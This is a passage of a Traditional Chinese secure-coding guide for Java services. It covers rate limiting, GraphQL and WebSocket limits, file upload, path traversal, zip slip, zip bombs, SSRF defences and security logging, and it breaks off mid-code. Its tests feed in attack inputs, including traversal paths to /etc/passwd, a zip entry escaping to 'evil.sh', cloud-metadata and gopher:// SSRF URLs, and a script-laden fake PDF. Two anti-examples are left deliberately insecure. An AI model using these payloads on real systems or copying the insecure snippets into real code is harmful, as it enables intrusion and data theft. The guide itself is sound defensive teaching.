| `SCG-API-004` | 必須 | 每個對外 API 都必須有速率限制；登入、驗證碼、密碼重設、註冊、查詢個資等高風險端點必須依「帳號」與「來源」分別限制；超過時回 429 並附 `Retry-After`；多個執行個體時，計數必須存放在共享儲存（Redis 等）或由 Gateway 處理 | 🧪 超過限制回 429 的測試；👁 Gateway 設定審查 |
| `SCG-API-005` | 必須 | 批次操作（一次處理多筆）、匯出、搜尋等成本較高的 API 必須有個別的筆數上限與較嚴格的速率限制；長時間的匯出應改為非同步工作 | 🧪 超過上限的測試 |

```java
// ✅ SCG-API-004：固定時間窗的速率限制器（示範用；多執行個體時改用 Redis 或 Gateway，見下方說明）
package com.example.scg.api;

import java.time.Clock;
import java.time.Duration;
import java.util.concurrent.ConcurrentHashMap;
import java.util.concurrent.ConcurrentMap;

public final class RateLimiter {

    private record Window(long startMillis, int count) { }

    private final ConcurrentMap<String, Window> windows = new ConcurrentHashMap<>();
    private final Clock clock;

    public RateLimiter(Clock clock) {
        this.clock = clock;
    }

    /** 在 window 期間內，同一個 key 最多允許 limit 次。 */
    public boolean tryAcquire(String key, int limit, Duration window) {
        long now = clock.millis();
        Window w = windows.compute(key, (k, old) -> {
            if (old == null || now - old.startMillis() >= window.toMillis()) {
                return new Window(now, 1);
            }
            return new Window(old.startMillis(), old.count() + 1);
        });
        return w.count() <= limit;
    }
}
```

```java
// ✅ SCG-API-004：測試第 4 次被拒絕、時間窗過後恢復
package com.example.scg.api;

import static org.assertj.core.api.Assertions.assertThat;

import java.time.Clock;
import java.time.Duration;
import java.time.Instant;
import java.time.ZoneOffset;
import org.junit.jupiter.api.Test;

class RateLimiterTest {

    @Test
    void blocksAfterLimitAndResetsAfterWindow() {
        Instant t0 = Instant.parse("2026-10-08T00:00:00Z");
        var limiter = new RateLimiter(Clock.fixed(t0, ZoneOffset.UTC));
        for (int i = 0; i < 3; i++) {
            assertThat(limiter.tryAcquire("otp:phone:0912345678", 3, Duration.ofMinutes(10))).isTrue();
        }
        assertThat(limiter.tryAcquire("otp:phone:0912345678", 3, Duration.ofMinutes(10))).isFalse();
        var later = new RateLimiter(Clock.fixed(t0.plus(Duration.ofMinutes(11)), ZoneOffset.UTC));
        assertThat(later.tryAcquire("otp:phone:0912345678", 3, Duration.ofMinutes(10))).isTrue();
    }
}
```

```yaml
# ✅ SCG-API-004、SCG-API-005：在 Gateway 層級設定依來源與依路徑的限制（Kong 的 rate-limiting 外掛設定片段）
plugins:
  - name: rate-limiting
    route: login
    config:
      minute: 10
      limit_by: ip
      policy: redis
      redis:
        host: redis.internal
  - name: rate-limiting
    route: export
    config:
      hour: 20
      limit_by: consumer
      policy: redis
      redis:
        host: redis.internal
```

#### 🔍 12.4 審查與驗證

- **自動檢查：** 以 k6 或簡單的迴圈對登入端點連續送出請求，確認第 N+1 次回 429 且有 `Retry-After`；確認多個執行個體時仍然有效（例如打兩個 Pod）。
- **人工審查問題：**
  1. 速率限制的鍵是什麼？以 IP 為鍵時，來源 IP 是否從可信的代理取得（見 `SCG-JS-008` 的 `trust proxy`）？
  2. 限制計數存在哪裡？單一 JVM 的記憶體在多個執行個體時會讓限制倍增。
- **AI 常見錯誤：** 以 `X-Forwarded-For` 的第一個值作為速率限制的鍵（可被偽造）；只在單一執行個體的記憶體中計數；登入 API 只依 IP 限制，攻擊者以大量 IP 對同一帳號嘗試。

### 12.5 GraphQL 與 WebSocket

GraphQL 讓用戶端自行決定查詢的形狀，也讓攻擊者可以送出極深、極寬的查詢耗盡伺服器資源，或以內省（introspection）取得完整的 Schema。WebSocket 的握手只在連線建立時驗證一次，之後的每則訊息都需要自行授權；瀏覽器不會對 WebSocket 套用同源政策，必須在伺服器檢查 `Origin`。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-API-009` | 必須 | GraphQL 端點必須限制查詢深度與複雜度、限制單一請求的批次查詢數量、在正式環境停用或限制內省，並在每個欄位解析器（resolver）檢查授權 | 🧪 以深層巢狀查詢測試；🤖 設定檢查 |
| `SCG-API-010` | 必須 | WebSocket 必須在握手時驗證身分並檢查 `Origin`（防止跨站 WebSocket 劫持）、限制訊息大小與頻率，並對每則訊息的操作檢查授權 | 🧪 以未列出的 Origin 連線被拒的測試 |

```yaml
# ✅ SCG-API-009：Spring for GraphQL 在正式環境停用內省
spring:
  graphql:
    schema:
      introspection:
        enabled: false
```

```java
// ✅ SCG-API-009：以 graphql-java 的 Instrumentation 限制查詢深度與複雜度
package com.example.scg.api;

import graphql.analysis.MaxQueryComplexityInstrumentation;
import graphql.analysis.MaxQueryDepthInstrumentation;
import org.springframework.context.annotation.Bean;
import org.springframework.context.annotation.Configuration;

@Configuration
public class GraphQlLimitsConfig {

    @Bean
    MaxQueryDepthInstrumentation maxQueryDepth() {
        return new MaxQueryDepthInstrumentation(8);
    }

    @Bean
    MaxQueryComplexityInstrumentation maxQueryComplexity() {
        return new MaxQueryComplexityInstrumentation(200);
    }
}
```

```java
// ✅ SCG-API-010：Spring WebSocket 只允許列出的 Origin；訊息大小上限 64 KB
package com.example.scg.api;

import org.springframework.context.annotation.Configuration;
import org.springframework.messaging.simp.config.MessageBrokerRegistry;
import org.springframework.web.socket.config.annotation.EnableWebSocketMessageBroker;
import org.springframework.web.socket.config.annotation.StompEndpointRegistry;
import org.springframework.web.socket.config.annotation.WebSocketMessageBrokerConfigurer;
import org.springframework.web.socket.config.annotation.WebSocketTransportRegistration;

@Configuration
@EnableWebSocketMessageBroker
public class WebSocketConfig implements WebSocketMessageBrokerConfigurer {

    @Override
    public void registerStompEndpoints(StompEndpointRegistry registry) {
        registry.addEndpoint("/ws").setAllowedOrigins("https://portal.example.com");
    }

    @Override
    public void configureMessageBroker(MessageBrokerRegistry registry) {
        registry.enableSimpleBroker("/topic", "/queue");
        registry.setApplicationDestinationPrefixes("/app");
    }

    @Override
    public void configureWebSocketTransport(WebSocketTransportRegistration registration) {
        registration.setMessageSizeLimit(64 * 1024).setSendTimeLimit(10_000).setSendBufferSizeLimit(512 * 1024);
    }
}
```

```java
// ❌ SCG-API-010：允許任何 Origin。任何網站都能以使用者的 Cookie 建立 WebSocket 連線並讀取訊息
registry.addEndpoint("/ws").setAllowedOriginPatterns("*");
```

（片段：WebSocket Origin 檢查的反例。每則訊息的授權可以 Spring Security 的 `@EnableWebSocketSecurity` 與 `AuthorizationManager<Message<?>>` 設定。）

#### 🔍 12.5 審查與驗證

- **自動檢查：** 以 10 層以上的巢狀查詢與 100 個別名的寬查詢測試 GraphQL 端點，確認被拒絕；以 `wscat -o https://evil.example -c wss://.../ws` 確認握手失敗。
- **人工審查問題：**
  1. GraphQL 的每個 resolver（不只是最上層的 Query）是否都檢查授權？巢狀欄位常是授權漏洞的來源。
  2. WebSocket 連線建立後，使用者權限變更或登出時，連線是否會被中斷？
- **AI 常見錯誤：** GraphQL 只在最上層查詢檢查權限；`setAllowedOriginPatterns("*")`；WebSocket 訊息沒有大小限制。

## 13. 檔案、壓縮檔與外部資源

檔案處理與對外請求是兩類「讓攻擊者把東西送進伺服器」的入口。檔案上傳（CWE-434，2025 CWE Top 25 第 12 名）可以讓攻擊者放上可執行的網頁腳本或惡意程式；路徑穿越（CWE-22，第 6 名）可以讀取或覆寫任意檔案；伺服器端請求偽造（SSRF，CWE-918）可以讓伺服器替攻擊者存取內部網路與雲端中繼資料服務。

### 13.1 檔案上傳

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-IO-001` | 必須 | 檔案上傳必須：限制大小與數量；以**檔案內容**（magic number）判斷型別並比對副檔名允許清單，不得相信用戶端的 `Content-Type` 與副檔名；以伺服器產生的隨機名稱存放在網站根目錄之外、沒有執行權限的位置；在提供下載或後續處理之前完成防毒掃描 | 🧪 上傳測試（偽裝副檔名、超大檔、雙副檔名）；👁 程式碼審查 |
| `SCG-IO-002` | 必須 | 使用者上傳的檔案提供下載時，必須以 `Content-Disposition: attachment` 與 `X-Content-Type-Options: nosniff` 回應；HTML、SVG、XML 等可能含腳本的格式不得以內嵌方式從主網域提供，應改由獨立的下載網域提供，或轉換為安全格式（例如把圖片重新編碼） | 🧪 回應標頭測試 |

```java
// ✅ SCG-IO-001：以 Apache Tika 依內容判斷型別；副檔名與型別都要在允許清單；以隨機名稱存放在上傳目錄
package com.example.scg.io;

import java.io.BufferedInputStream;
import java.io.IOException;
import java.io.InputStream;
import java.nio.file.Files;
import java.nio.file.Path;
import java.nio.file.StandardCopyOption;
import java.util.Locale;
import java.util.Map;
import java.util.UUID;
import org.apache.tika.Tika;

public final class UploadService {

    public static final long MAX_BYTES = 10L * 1024 * 1024;
    private static final Map<String, String> ALLOWED = Map.of(     // 副檔名 → 內容必須符合的 MIME 型別
            "pdf", "application/pdf",
            "png", "image/png",
            "jpg", "image/jpeg",
            "jpeg", "image/jpeg");

    private final Tika tika = new Tika();
    private final Path storage;                                    // 例如 /var/app-data/uploads，不在網站根目錄下

    public UploadService(Path storage) {
        this.storage = storage;
    }

    public record Stored(Path path, String mimeType) { }

    public Stored store(String originalName, long size, InputStream content) throws IOException {
        if (size <= 0 || size > MAX_BYTES) {
            throw new IllegalArgumentException("檔案大小必須介於 1 位元組與 10 MB 之間");
        }
        String ext = extension(originalName);
        String expected = ALLOWED.get(ext);
        if (expected == null) {
            throw new IllegalArgumentException("不允許的檔案類型");
        }
        BufferedInputStream in = new BufferedInputStream(content);
        String detected = tika.detect(in);                         // 讀取檔頭判斷，不依賴檔名
        if (!expected.equals(detected)) {
            throw new IllegalArgumentException("檔案內容與副檔名不符");
        }
        Path target = storage.resolve(UUID.randomUUID() + "." + ext);
        Files.copy(in, target, StandardCopyOption.REPLACE_EXISTING);
        return new Stored(target, detected);                       // 後續交給防毒掃描，通過後才標記為可下載
    }

    static String extension(String name) {
        int dot = name == null ? -1 : name.lastIndexOf('.');
        return dot < 0 ? "" : name.substring(dot + 1).toLowerCase(Locale.ROOT);
    }
}
```

```java
// ✅ SCG-IO-001：測試偽裝成 PDF 的 HTML、雙副檔名與超大檔都被拒絕
package com.example.scg.io;

import static org.assertj.core.api.Assertions.assertThat;
import static org.assertj.core.api.Assertions.assertThatThrownBy;

import java.io.ByteArrayInputStream;
import java.nio.charset.StandardCharsets;
import java.nio.file.Files;
import java.nio.file.Path;
import org.junit.jupiter.api.Test;
import org.junit.jupiter.api.io.TempDir;

class UploadServiceTest {

    @TempDir
    Path dir;

    @Test
    void rejectsHtmlDisguisedAsPdf() {
        byte[] html = "<html><script>alert(1)</script></html>".getBytes(StandardCharsets.UTF_8);
        var svc = new UploadService(dir);
        assertThatThrownBy(() -> svc.store("invoice.pdf", html.length, new ByteArrayInputStream(html)))
                .hasMessageContaining("不符");
    }

    @Test
    void rejectsDisallowedExtensionsAndHugeFiles() {
        var svc = new UploadService(dir);
        assertThatThrownBy(() -> svc.store("shell.jsp", 10, new ByteArrayInputStream(new byte[10])))
                .hasMessageContaining("不允許");
        assertThatThrownBy(() -> svc.store("photo.png.jsp", 10, new ByteArrayInputStream(new byte[10])))
                .hasMessageContaining("不允許");
        assertThatThrownBy(() -> svc.store("big.pdf", UploadService.MAX_BYTES + 1, new ByteArrayInputStream(new byte[1])))
                .hasMessageContaining("大小");
    }

    @Test
    void storesRealPdfWithRandomName() throws Exception {
        byte[] pdf = "%PDF-1.7\n%âãÏÓ\n1 0 obj\n<<>>\nendobj\ntrailer\n<<>>\n%%EOF\n".getBytes(StandardCharsets.ISO_8859_1);
        var stored = new UploadService(dir).store("../../etc/report.pdf", pdf.length, new ByteArrayInputStream(pdf));
        assertThat(stored.path().getParent()).isEqualTo(dir);
        assertThat(stored.path().getFileName().toString()).doesNotContain("report").endsWith(".pdf");
        assertThat(Files.size(stored.path())).isEqualTo(pdf.length);
    }
}
```

```java
// ✅ SCG-IO-002：下載使用者上傳的檔案：一律以附件下載、禁止 MIME 嗅探、檔名以 RFC 6266／5987 編碼
package com.example.scg.io;

import java.nio.charset.StandardCharsets;
import org.springframework.core.io.Resource;
import org.springframework.http.ContentDisposition;
import org.springframework.http.HttpHeaders;
import org.springframework.http.MediaType;
import org.springframework.http.ResponseEntity;

public final class DownloadResponses {

    private DownloadResponses() {
    }

    public static ResponseEntity<Resource> attachment(Resource file, String displayName) {
        ContentDisposition cd = ContentDisposition.attachment().filename(displayName, StandardCharsets.UTF_8).build();
        return ResponseEntity.ok()
                .header(HttpHeaders.CONTENT_DISPOSITION, cd.toString())   // 檔名中的引號、換行會被正確編碼
                .header("X-Content-Type-Options", "nosniff")
                .header("Content-Security-Policy", "sandbox")             // 即使被瀏覽器開啟，也無法執行腳本
                .contentType(MediaType.APPLICATION_OCTET_STREAM)
                .body(file);
    }
}
```

#### 🔍 13.1 審查與驗證

- **自動檢查：** 上傳測試涵蓋：HTML 改名為 `.pdf`、`.jsp`／`.php`／`.html`、雙副檔名（`a.png.jsp`）、空檔、超大檔、含 `../` 的檔名；以 `curl -I` 確認下載回應有 `Content-Disposition: attachment` 與 `nosniff`。
- **人工審查問題：**
  1. 上傳的檔案存在哪裡？該目錄是否能被 Web 伺服器直接存取或執行？
  2. 防毒掃描在何時執行？掃描完成前檔案是否已經可以下載？
  3. 圖片是否經過重新編碼（可去除夾帶的腳本與 EXIF 中的個資，例如 GPS 位置）？
- **AI 常見錯誤：** 以 `file.getContentType()`（用戶端提供）判斷型別；以 `file.getOriginalFilename()` 作為儲存檔名；存在 `src/main/resources/static/uploads`。

### 13.2 路徑穿越與壓縮檔

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-IO-003` | 必須 | 以外部輸入決定檔案路徑時，應優先以 ID 對應到伺服器端決定的路徑；無法避免時，必須以 `Path.resolve(...).normalize()` 解析後確認結果仍在基底目錄內（`startsWith(base)` 以 `Path` 比較，不是字串比較），並拒絕絕對路徑與符號連結 | 🤖 FindSecBugs `PATH_TRAVERSAL_IN`；🧪 以 `../`、`..\`、絕對路徑、URL 編碼測試 |
| `SCG-IO-004` | 必須 | 解壓縮外部提供的壓縮檔時，必須檢查每個項目的路徑（防止 Zip Slip）、限制項目數量、單檔與總解壓縮大小以及壓縮比（防止壓縮炸彈） | 🧪 以含 `../` 項目與高壓縮比的測試檔測試 |

```java
// ✅ SCG-IO-003：以 Path API 解析並確認仍在基底目錄內
package com.example.scg.io;

import java.io.IOException;
import java.nio.file.Files;
import java.nio.file.LinkOption;
import java.nio.file.Path;

public final class SafePaths {

    private SafePaths() {
    }

    public static Path resolveInside(Path base, String userPath) throws IOException {
        Path root = base.toRealPath();
        Path p = Path.of(userPath);
        if (p.isAbsolute() || userPath.contains("\0")) {
            throw new IllegalArgumentException("不允許的路徑");
        }
        Path target = root.resolve(p).normalize();
        if (!target.startsWith(root)) {                            // Path.startsWith 比較的是路徑元素，不是字串前綴
            throw new IllegalArgumentException("路徑超出允許範圍");
        }
        if (Files.exists(target, LinkOption.NOFOLLOW_LINKS) && Files.isSymbolicLink(target)) {
            throw new IllegalArgumentException("不允許符號連結");
        }
        return target;
    }
}
```

```java
// ✅ SCG-IO-003：測試常見的路徑穿越寫法
package com.example.scg.io;

import static org.assertj.core.api.Assertions.assertThat;
import static org.assertj.core.api.Assertions.assertThatThrownBy;

import java.nio.file.Files;
import java.nio.file.Path;
import org.junit.jupiter.api.Test;
import org.junit.jupiter.api.io.TempDir;

class SafePathsTest {

    @TempDir
    Path base;

    @Test
    void rejectsTraversal() throws Exception {
        Files.createDirectories(base.resolve("docs"));
        Files.createDirectories(base.resolveSibling(base.getFileName() + "-secret"));
        for (String bad : new String[] {"../x", "docs/../../x", "/etc/passwd",
                "../" + base.getFileName() + "-secret/x"}) {
            assertThatThrownBy(() -> SafePaths.resolveInside(base, bad)).as(bad).isInstanceOf(IllegalArgumentException.class);
        }
    }

    @Test
    void allowsNormalFiles() throws Exception {
        assertThat(SafePaths.resolveInside(base, "docs/manual.pdf")).startsWithRaw(base.toRealPath());
    }
}
```

```java
// ✅ SCG-IO-004：安全的 ZIP 解壓縮：路徑檢查、項目數量、總大小與壓縮比上限
package com.example.scg.io;

import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.nio.file.Files;
import java.nio.file.Path;
import java.util.zip.ZipEntry;
import java.util.zip.ZipInputStream;

public final class SafeUnzip {

    public static final int MAX_ENTRIES = 1_000;
    public static final long MAX_TOTAL_BYTES = 100L * 1024 * 1024;
    public static final double MAX_RATIO = 100.0;

    private SafeUnzip() {
    }

    public static int extract(InputStream zip, long compressedSize, Path dest) throws IOException {
        Path root = dest.toRealPath();
        int entries = 0;
        long total = 0;
        byte[] buf = new byte[8192];
        try (ZipInputStream zin = new ZipInputStream(zip)) {
            ZipEntry e;
            while ((e = zin.getNextEntry()) != null) {
                if (++entries > MAX_ENTRIES) {
                    throw new IllegalStateException("壓縮檔項目過多");
                }
                Path target = root.resolve(e.getName()).normalize();
                if (!target.startsWith(root)) {
                    throw new IllegalStateException("壓縮檔含有不安全的路徑：" + e.getName());   // Zip Slip
                }
                if (e.isDirectory()) {
                    Files.createDirectories(target);
                    continue;
                }
                Files.createDirectories(target.getParent());
                try (OutputStream out = Files.newOutputStream(target)) {
                    int n;
                    while ((n = zin.read(buf)) > 0) {
                        total += n;
                        if (total > MAX_TOTAL_BYTES || total > compressedSize * MAX_RATIO) {
                            throw new IllegalStateException("解壓縮後的大小超過上限");   // 壓縮炸彈
                        }
                        out.write(buf, 0, n);
                    }
                }
            }
        }
        return entries;
    }
}
```

```java
// ✅ SCG-IO-004：測試含 ../ 項目的壓縮檔與高壓縮比的壓縮檔
package com.example.scg.io;

import static org.assertj.core.api.Assertions.assertThatThrownBy;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.nio.file.Path;
import java.util.zip.ZipEntry;
import java.util.zip.ZipOutputStream;
import org.junit.jupiter.api.Test;
import org.junit.jupiter.api.io.TempDir;

class SafeUnzipTest {

    @TempDir
    Path dir;

    private static byte[] zip(String name, byte[] content) throws Exception {
        var bytes = new ByteArrayOutputStream();
        try (var z = new ZipOutputStream(bytes)) {
            z.putNextEntry(new ZipEntry(name));
            z.write(content);
            z.closeEntry();
        }
        return bytes.toByteArray();
    }

    @Test
    void rejectsZipSlip() throws Exception {
        byte[] z = zip("../../evil.sh", "echo pwned".getBytes());
        assertThatThrownBy(() -> SafeUnzip.extract(new ByteArrayInputStream(z), z.length, dir))
                .hasMessageContaining("不安全的路徑");
    }

    @Test
    void rejectsZipBomb() throws Exception {
        byte[] z = zip("zeros.bin", new byte[20 * 1024 * 1024]);          // 20 MB 的 0，壓縮後只有數十 KB
        assertThatThrownBy(() -> SafeUnzip.extract(new ByteArrayInputStream(z), z.length, dir))
                .hasMessageContaining("超過上限");
    }
}
```

#### 🔍 13.2 審查與驗證

- **自動檢查：** FindSecBugs `PATH_TRAVERSAL_IN`、`PATH_TRAVERSAL_OUT`；上述兩個測試類別（Zip Slip 與壓縮炸彈目前沒有可靠的通用工具規則，必須以測試證明）。
- **人工審查問題：**
  1. 路徑比對是以 `String.startsWith` 還是 `Path.startsWith`？字串比對會讓 `/data/uploads-old` 通過 `/data/uploads` 的檢查。
  2. 處理 Office 文件（`.docx`、`.xlsx` 也是 ZIP）的函式庫是否有壓縮炸彈防護？（Apache POI 的 `ZipSecureFile.setMinInflateRatio`。）
- **AI 常見錯誤：** `new File(baseDir, request.getParameter("file"))` 後直接讀取；解壓縮時以 `entry.getName()` 直接組合路徑；以 `entry.getSize()`（可被竄改）判斷大小。

### 13.3 伺服器端請求偽造（SSRF）

當伺服器依使用者提供的網址發出請求（網址預覽、Webhook、匯入遠端檔案、圖片代理），攻擊者可以讓伺服器存取 `http://169.254.169.254/`（雲端中繼資料服務，可取得臨時憑證）、`http://localhost:8080/actuator`、內部資料庫的 HTTP 介面等。OWASP Top 10:2025 將 SSRF 併入 A01「存取控制失效」，因為本質上它就是伺服器替攻擊者越權存取。

**防禦的難點：** 只檢查網址字串不夠。攻擊者可以使用 `http://2130706433/`（十進位的 127.0.0.1）、`http://[::ffff:127.0.0.1]/`、指向內部 IP 的網域名稱，或在檢查後才把 DNS 改指向內部 IP（DNS rebinding）。正確的做法是**解析出 IP 後檢查 IP**，並以檢查過的 IP 發出請求、不跟隨重新導向。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-IO-005` | 必須 | 依外部輸入發出的請求，必須優先以允許清單限制目的主機；無法使用允許清單時（例如使用者自訂 Webhook），必須只允許 `https`、解析 DNS 後拒絕迴路、私有、鏈路本地（含 `169.254.169.254`）、CGNAT、多播、IPv6 唯一本地與 IPv4 對映位址，並以檢查過的 IP 連線、停用自動重新導向 | 🧪 以內部 IP、各種編碼、重新導向測試；🤖 FindSecBugs `URLCONNECTION_SSRF_FD` |
| `SCG-IO-006` | 應該 | 除了程式碼檢查之外，應以網路層限制伺服器的對外連線（Kubernetes NetworkPolicy、出口代理、雲端 IMDSv2 或停用中繼資料服務），作為縱深防禦 | 👁 基礎架構審查 |

```java
// ✅ SCG-IO-005：解析 DNS 後檢查每一個 IP；回傳檢查過的位址，讓呼叫端以該 IP 連線（避免 DNS rebinding）
package com.example.scg.io;

import java.net.Inet4Address;
import java.net.Inet6Address;
import java.net.InetAddress;
import java.net.URI;
import java.net.UnknownHostException;
import java.util.Locale;

public final class SsrfGuard {

    public record Target(URI uri, InetAddress address) { }

    private SsrfGuard() {
    }

    public static Target check(String url) {
        URI uri;
        try {
            uri = URI.create(url);
        } catch (IllegalArgumentException e) {
            throw new IllegalArgumentException("網址格式錯誤");
        }
        if (!"https".equalsIgnoreCase(uri.getScheme()) || uri.getHost() == null || uri.getRawUserInfo() != null) {
            throw new IllegalArgumentException("只允許 https 網址");
        }
        if (uri.getPort() != -1 && uri.getPort() != 443) {
            throw new IllegalArgumentException("只允許 443 埠");
        }
        InetAddress[] all;
        try {
            all = InetAddress.getAllByName(uri.getHost().toLowerCase(Locale.ROOT));
        } catch (UnknownHostException e) {
            throw new IllegalArgumentException("無法解析主機");
        }
        for (InetAddress a : all) {
            if (isInternal(a)) {
                throw new IllegalArgumentException("不允許存取內部位址");
            }
        }
        return new Target(uri, all[0]);
    }

    static boolean isInternal(InetAddress a) {
        if (a.isAnyLocalAddress() || a.isLoopbackAddress() || a.isLinkLocalAddress()
                || a.isSiteLocalAddress() || a.isMulticastAddress()) {
            return true;
        }
        byte[] b = a.getAddress();
        if (a instanceof Inet4Address) {
            int b0 = b[0] & 0xff;
            int b1 = b[1] & 0xff;
            return b0 == 0 || (b0 == 100 && b1 >= 64 && b1 <= 127)     // 100.64.0.0/10 CGNAT
                    || (b0 == 192 && b1 == 0 && (b[2] & 0xff) == 0)     // 192.0.0.0/24
                    || (b0 == 198 && (b1 == 18 || b1 == 19))            // 198.18.0.0/15
                    || b0 >= 240;                                        // 保留與廣播
        }
        if (a instanceof Inet6Address) {
            boolean uniqueLocal = (b[0] & 0xfe) == 0xfc;                 // fc00::/7
            boolean v4Mapped = isV4Mapped(b);
            return uniqueLocal || v4Mapped;
        }
        return true;
    }

    private static boolean isV4Mapped(byte[] b) {
        for (int i = 0; i < 10; i++) {
            if (b[i] != 0) {
                return false;
            }
        }
        return (b[10] & 0xff) == 0xff && (b[11] & 0xff) == 0xff;
    }
}
```

```java
// ✅ SCG-IO-005：測試內部位址與常見的繞過寫法
package com.example.scg.io;

import static org.assertj.core.api.Assertions.assertThat;
import static org.assertj.core.api.Assertions.assertThatThrownBy;

import java.net.InetAddress;
import org.junit.jupiter.api.Test;

class SsrfGuardTest {

    @Test
    void rejectsInternalTargets() {
        for (String bad : new String[] {
                "http://example.com/", "https://127.0.0.1/", "https://169.254.169.254/latest/meta-data/",
                "https://10.0.0.5/", "https://[::1]/", "https://[fd00::1]/", "https://[::ffff:127.0.0.1]/",
                "https://100.64.1.1/", "https://0.0.0.0/", "https://user@example.com/", "https://example.com:8080/",
                "file:///etc/passwd", "gopher://127.0.0.1:6379/"}) {
            assertThatThrownBy(() -> SsrfGuard.check(bad)).as(bad).isInstanceOf(IllegalArgumentException.class);
        }
    }

    @Test
    void classifiesPublicAddressAsExternal() throws Exception {
        assertThat(SsrfGuard.isInternal(InetAddress.getByName("93.184.215.14"))).isFalse();
        assertThat(SsrfGuard.isInternal(InetAddress.getByName("192.168.1.10"))).isTrue();
    }
}
```

```java
// ❌ SCG-IO-005：直接以使用者提供的網址發出請求，且跟隨重新導向
package com.example.scg.bad;

import java.io.InputStream;
import java.net.URI;
import java.net.URLConnection;

public class LinkPreviewBad {
    public InputStream fetch(String url) throws Exception {
        URLConnection c = URI.create(url).toURL().openConnection();
        return c.getInputStream();
    }
}
```

```yaml
# ✅ SCG-IO-006：Kubernetes NetworkPolicy，只允許連到出口代理與 DNS，其他對外連線（含 169.254.169.254）一律封鎖
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: link-preview-egress
  namespace: portal
spec:
  podSelector:
    matchLabels:
      app: link-preview
  policyTypes: [Egress]
  egress:
    - to:
        - namespaceSelector:
            matchLabels:
              kubernetes.io/metadata.name: egress-proxy
      ports:
        - protocol: TCP
          port: 3128
    - to:
        - namespaceSelector:
            matchLabels:
              kubernetes.io/metadata.name: kube-system
          podSelector:
            matchLabels:
              k8s-app: kube-dns
      ports:
        - protocol: UDP
          port: 53
```

#### 🔍 13.3 審查與驗證

- **自動檢查：** `SsrfGuardTest` 這類測試；FindSecBugs `URLCONNECTION_SSRF_FD`（只能標出「以變數網址發出請求」的位置，無法判斷是否已檢查）；以 `kubeconform` 驗證 NetworkPolicy 語法。
- **人工審查問題：**
  1. 系統中有哪些功能會依使用者輸入發出請求？網址預覽、Webhook、PDF 產生器（HTML 轉 PDF 會載入圖片與樣式）、XML（外部實體）、圖片處理都算。
  2. HTTP 用戶端是否會跟隨重新導向？外部網址先通過檢查、再以 302 導向 `http://169.254.169.254/` 是常見繞過手法。
  3. 檢查與連線是否使用同一次 DNS 解析的結果？
- **AI 常見錯誤：** 只以字串比對 `url.contains("localhost")`；以正規表示式比對 IP 格式（漏掉十進位、IPv6、DNS）；檢查網址後以原始網址重新解析並連線。

## 14. 安全記錄與錯誤處理

OWASP Top 10:2025 把 A09 更名為「安全記錄與**警示**失效」，並新增 A10「例外狀況處理不當」。兩者都指向同一件事：程式出錯或被攻擊時，系統要能**安全地失敗**，並留下**足以調查**的紀錄，而紀錄本身不能變成新的外洩來源。日誌的平台架構（收集、保存、SIEM）見 [架構設計指引]()；本章規範程式碼要記錄什麼、不能記錄什麼。

### 14.1 安全事件記錄

| 必須記錄的事件 | 範例 |
| --- | --- |
| 身分驗證 | 登入成功與失敗、登出、多因子驗證失敗、密碼變更與重設、帳號鎖定 |
| 授權 | 存取被拒（403／404 的授權失敗）、權限變更、角色指派 |
| 輸入驗證 | 大量的驗證失敗（可能是掃描或攻擊）、簽章驗證失敗 |
| 敏感資料 | 個資的查詢、匯出、列印、大量下載 |
| 管理與設定 | 系統設定變更、使用者建立與停用、金鑰輪替 |
| 異常 | 未預期的例外、速率限制觸發、安全元件（授權服務、KMS）無法使用 |

每筆安全事件都應包含「誰（使用者、來源 IP、用戶端）、何時（UTC 時間）、在哪裡（服務、端點）、做什麼（事件類型、對象 ID）、結果（成功、失敗、原因）、關聯（traceId）」。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-LOG-001` | 必須 | 14.1 表格中的安全事件必須以結構化格式（JSON 或 key=value）記錄，包含誰、何時、在哪裡、做什麼、結果與追蹤碼；安全事件應使用獨立的日誌名稱（例如 `SECURITY`），方便轉送 SIEM 與設定警示 | 🧪 登入失敗後檢查日誌內容的測試；👁 程式碼審查 |
| `SCG-LOG-002` | 必須 | 日誌不得記錄密碼、權杖、Session ID、API 金鑰、完整卡號、CVV、完整身分證字號、完整帳號、加密金鑰與請求本文中的敏感欄位；必要時只記錄遮罩後的值或雜湊 | 🤖 日誌掃描（Gitleaks 規則、DLP）；🧪 遮罩函式的測試；👁 程式碼審查 |
| `SCG-LOG-003` | 必須 | 寫入日誌的使用者可控資料必須防止日誌注入：使用結構化日誌（JSON 會跳脫換行與控制字元），或在純文字日誌中把 CR、LF 與其他控制字元取代或跳脫 | 🤖 FindSecBugs `CRLF_INJECTION_LOGS`；🧪 以含換行的輸入測試 |
| `SCG-LOG-004` | 必須 | 安全與稽核日誌必須防止竄改與刪除（集中收集、應用程式帳號只能新增、保存期限符合法規與合約），且存取日誌本身也必須有權限控管與紀錄 | 👁 平台設定審查 |

```java
// ✅ SCG-LOG-001、SCG-LOG-002：以 SLF4J 2 的 key-value API 記錄安全事件；不記錄密碼與完整識別資料
package com.example.scg.log;

import org.slf4j.Logger;
import org.slf4j.LoggerFactory;

public final class SecurityEvents {

    private static final Logger SECURITY = LoggerFactory.getLogger("SECURITY");

    private SecurityEvents() {
    }

    public static void loginFailed(String username, String sourceIp, String reason, String traceId) {
        SECURITY.atWarn()
                .addKeyValue("event", "auth.login.failure")
                .addKeyValue("user", Masking.username(username))
                .addKeyValue("sourceIp", sourceIp)
                .addKeyValue("reason", reason)                 // 例如 BAD_CREDENTIALS、LOCKED，而不是例外訊息
                .addKeyValue("traceId", traceId)
                .log("login failed");
    }

    public static void personalDataExported(String actor, String reportId, int rows, String traceId) {
        SECURITY.atInfo()
                .addKeyValue("event", "pii.export")
                .addKeyValue("actor", actor)
                .addKeyValue("reportId", reportId)
                .addKeyValue("rows", rows)
                .addKeyValue("traceId", traceId)
                .log("personal data exported");
    }
}
```

```java
// ✅ SCG-LOG-002：遮罩工具：保留辨識所需的最少資訊
package com.example.scg.log;

public final class Masking {

    private Masking() {
    }

    /** 身分證字號 A123456789 → A12****789 */
